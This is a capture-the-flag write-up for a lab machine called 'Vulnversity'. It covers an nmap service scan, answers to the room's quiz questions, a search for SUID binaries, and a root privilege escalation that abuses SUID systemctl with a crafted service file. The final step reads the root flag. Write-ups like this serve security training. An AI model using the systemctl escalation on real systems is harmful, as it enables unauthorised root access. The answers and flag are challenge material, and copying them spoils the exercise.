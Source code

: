 # Vulnversity

## Scan the box, how many ports are open?

There are 6 open ports:

~~~
$ nmap -sV -p- 10.10.236.222

Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-29 01:23 PDT
Stats: 0:00:02 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 50.00% done; ETC: 01:23 (0:00:02 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 0.50% done
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 3.18% done; ETC: 01:25 (0:02:32 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.28% done; ETC: 01:25 (0:02:23 remaining)
Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.73% done; ETC: 01:25 (0:01:11 remaining)
Nmap scan report for 10.10.236.222
Host is up (0.045s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 348.72 seconds
~~~

## What version of the squid proxy is running on the machine?
~~~
3.5.12
~~~

## How many ports will nmap scan if the flag -p-400 was used?
~~~
400
~~~

## Using the nmap flag -n what will it not resolve?
~~~
DNS
~~~

## What is the most likely operating system this machine is running?
~~~
Ubuntu
~~~
Revealed by port 22 (nmap)

## What port is the web server running on?
~~~
3333
~~~

## Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

~~~
$ find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ 
~~~

~~~
$ cat > /tmp/flag.service << EOF
> [Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag.txt"
> [Install]
> WantedBy=multi-user.target
> EOF
$ cat flag.service
[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag.txt"
[Install]
WantedBy=multi-user.target
$ /bin/systemctl link /tmp/flag.service
$ /bin/systemctl enable --now /tmp/flag.service
Created symlink from /etc/systemd/system/multi-user.target.wants/flag.service to /tmp/flag.service.
$ cat flag.txt	
a58ff8579f0a9270368d33a9966c7fd5
~~~